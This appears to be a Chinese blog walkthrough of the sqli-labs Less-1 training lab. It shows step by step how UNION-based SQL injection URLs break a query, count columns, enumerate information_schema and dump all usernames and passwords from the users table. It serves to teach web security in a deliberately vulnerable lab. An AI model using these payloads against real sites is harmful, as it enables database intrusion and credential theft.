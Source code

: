 ```yaml
---
title: sql-labs Less-1
date: 2017-9-21
tags: [sqli-labs]
---
```


#### sql 字符
字符串运算符 ```'or```, 

多行注释 ```/*...*/```,   

加号,连接（在URL中等同于空格） ```+```,

单行注释 ```#```,

或 ```--```
<!--more--->
#### 注入
![Alt text](http://image-1252432001.file.myqcloud.com/sqli1.png)

输入id值为```1'```来破坏查询。

```sql
http://localhost/sqli-labs/Less-1/?id=1'
```
得到下列结果

![Alt text](http://image-1252432001.file.myqcloud.com/sqli2.png)

可以猜测后端应该是

```sql
SELECT * from table_name WHERE id='1';
```
or
```sql
SELECT * from table_name WHERE id=('1');
```

or

```sql
SELECT * from table_name WHERE id="1";
```

来猜一下:

```sql
http://localhost/sqli-labs/Less-1/?id=1\
```

利用转义字符来验证猜测

![Alttext](http://image-1252432001.file.myqcloud.com/sqli3.png)

结果中有```''1\'```,那么后端的查询应该是

```sql
SELECT * from table_name WHERE id='1';
```

那么如果输入```1'```完整的查询应该是

```sql
SELECT * from table_name WHERE id='1'';
```

所以这条查询有错误。

那么怎么不让它报错呢？

利用sql字符构建

```sql
http://localhost/sqli-labs/Less-1/?id=1'--+
```

得到下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli4.png)

其实这里的```--+```相当于注释，加号连接（在URL中等同于空格）```+```，

后端语句为

```sql
SELECT * from table_name WHERE id='1'--+';
```

等效于

```sql
SELECT * from table_name WHERE id='1';
```

所以登录成功。


----------


**现在我们既可以破坏查询，又可以修复它的语法错误了，接下来我们要努力在引号和 --+ 之间添加查询来获取数据库中的信息。**

为了使用```union```**（UNION操作符用于合并两个或多个SELECT语句的结果集。但是有一个前提条件，那就是UNION操作符两边的列数必须相同）**,我需要知道表的列数。

使用```order by```，来获取列数。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 1 --+
```

显示正确

![Alttext](http://image-1252432001.file.myqcloud.com/sqli5.png)

当构建

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 4 --+
```

出现了下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli6.png)

可以猜到这个表有3列，然后就可以使用```union```了。


----------

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli7.png)

显示正常

为了将第二个查询的结果显示出来，需要将第一条查询变成空，可以将```id```的值设为负值或者大于14.

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli8.png)


图示显示``` name: 2 ```, ``` password: 3 ```，可以构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli9.png)

显示版本号。

下面开始爆出数据库名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,database(),verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli10.png)

得到数据库名为```security```.

接下来可以利用 information_schema这个数据库，爆出表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli11.png)

利用```group_concat()``` 来查取所有的表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli12.png)

爆出全部表名。

接下来爆出```users```表的列名，也是利用information_schema这个数据库。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli13.png)

那么可以得到users表中的所以登录名和密码

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli14.png)

**这么就把库给脱了！**
